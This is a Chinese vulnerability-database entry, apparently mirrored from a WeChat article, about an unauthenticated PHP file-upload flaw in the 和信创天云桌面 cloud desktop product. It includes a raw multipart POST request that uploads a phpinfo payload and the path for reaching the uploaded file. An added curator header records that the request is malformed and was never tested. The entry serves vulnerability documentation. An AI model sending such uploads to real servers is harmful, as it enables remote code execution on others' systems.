


# 和信创天云桌面 upload_file PHP上传执行

## 条目说明

- 对象与具体问题：和信创天云桌面；upload_file PHP上传执行
- 版本、配置及部署条件：默认配置/版本未知
- 认证与权限前提：无鉴权信息
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- HTTP缺Host和头体/分片空行，声明RCE与实际PHP检测分层
- PoC脚本只有截图，299虽有脚本但路径判定错误，不能无检查合并代码
- 删无关口号及个人主页推广，保留署名和原文链接

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DSkOoyj9pM87l84YHgBJ1A)

**若天下不定，吾往；若世道不平，不回！**
======================

漏洞描述  

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

漏洞影响

和信创天云桌面系统

漏洞复现

构造 payload

```http
POST /Upload/upload_file.php?l=1 HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 180
------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; 
Content-Type: image/avif
<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--

```

访问

```
https://xxx.xxx.xxx/Upload/1/1.php

```

漏洞证明



漏洞利用 poc



文笔生疏，措辞浅薄，望各位大佬不吝赐教，万分感谢。

免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。

转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。

```
CSDN:
https://blog.csdn.net/weixin_48899364?type=blog
公众号：
https://mp.weixin.qq.com/mp/appmsgalbum?__biz=Mzg5NTU2NjA1Mw==&action=getalbum&album_id=1696286248027357190&scene=173&from_msgid=2247485408&from_itemidx=1&count=3&nolastread=1#wechat_redirect
博客:
https://rdyx0.github.io/
先知社区：
https://xz.aliyun.com/u/37846
SecIN:
https://www.sec-in.com/author/3097
FreeBuf：
https://www.freebuf.com/author/%E5%9B%BD%E6%9C%8D%E6%9C%80%E5%BC%BA%E6%B8%97%E9%80%8F%E6%8E%8C%E6%8E%A7%E8%80%85

```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
